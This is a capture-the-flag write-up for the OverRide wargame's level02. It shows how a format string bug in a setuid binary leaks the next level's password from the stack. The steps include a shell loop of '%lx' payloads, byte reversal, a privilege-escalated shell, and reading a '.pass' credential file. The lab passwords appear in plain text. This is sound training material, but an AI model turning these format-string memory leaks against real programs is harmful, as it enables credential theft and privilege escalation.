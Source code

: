 # Format string reading (attack)

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level02
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level02@192.168.56.101's password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

The binary file located in home directory of `level02` is an 64-bit executable.
```shell
level02@OverRide:~$ ls -l
total 12
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
level02@OverRide:~$ file level02
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```
It contains only one user defined function `main()`

Executable open a `.pass` file of `level03` and read 41 bytes of data from the stream pointed to by the `fd`, storing them at the location given by first pointer to `buff`. It replace last character `\n` with `\0` and check that letght of buffer is equal to 41.

Then, it invite user to input username and password. So it reads in at most one less than 100 characters from `stdin` and stores them into the buffer pointed to by `username` and `password`. Once input is entered it replace `\n` with `\0`.

Finally, it compares user's password to password read from the file. If it match, it open a new process runnign a shell.
In case if password do not match, it ouputs username and message that it _does not have access!_.

Here `printf()` is ussed is such way that input string is evaluated as a command by the application, which is know as [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack). As the password still in the memory, it can be retrieved by passing to `printf()` a conversion specifier `%x`.

As password is stored in the buffer and FSA can be performed, read the stack using long conversion specifier `%lx` (as binary is an 64-bytes).

Let's read first 32 values on the stack, one at time, printing only hexadecimal values
```shell
level02@OverRide:~$ for i in {0..32}; do python -c "print('%$i\$016lx')" | ./level02 | grep -oE '[a-f0-9]{16}' | tr '\n' ' '; done; echo
00007fffffffe4f0 0000000000000000 0000000000000000 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 00007fffffffe6e8 00000001f7ff9a08 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000100000000 0000000000000000 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0000000000000000 6c36313024383225 0000000000000078 0000000000000000 0000000000000000 0000000000000000
```
`filepass` content is lay on stack beetween offset 22 and 26.
```shell
level02@OverRide:~$ for i in {22..26}; do python -c "print('%$i\$016lx')" | ./level02 | grep -oE '[a-f0-9]{16}' | tr '\n' ' '; done; echo
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
```
Convert hexadecimal value to ASCII within Python
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"))
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
```
The password is incorrect.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
level03 does not have access!
level02@OverRide:~$
level02@OverRide:~$ su level03
Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
su: Authentication failure
```
The system and the binary are in Little endian configuration.
```shell
level02@OverRide:~$ lscpu | grep 'Byte Order'
Byte Order:            Little Endian
level02@OverRide:~$ readelf -h ./level02 | grep Data
  Data:                              2's complement, little endian
```
So the order of bytes need to be adjust.
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> a = bytearray.fromhex("756e505234376848")
>>> b = bytearray.fromhex("45414a3561733951")
>>> c = bytearray.fromhex("377a7143574e6758")
>>> d = bytearray.fromhex("354a35686e475873")
>>> e = bytearray.fromhex("48336750664b394d")
>>> print(a + b + c + d + e)
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
>>> a.reverse()
>>> b.reverse()
>>> c.reverse()
>>> d.reverse()
>>> e.reverse()
>>> print(a + b + c + d + e)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
## Exploit
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, level03!
$ id
uid=1002(level02) gid=1002(level02) euid=1003(level03) egid=100(users) groups=1003(level03),100(users),1002(level02)
$ cat /home/users/$(whoami)/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
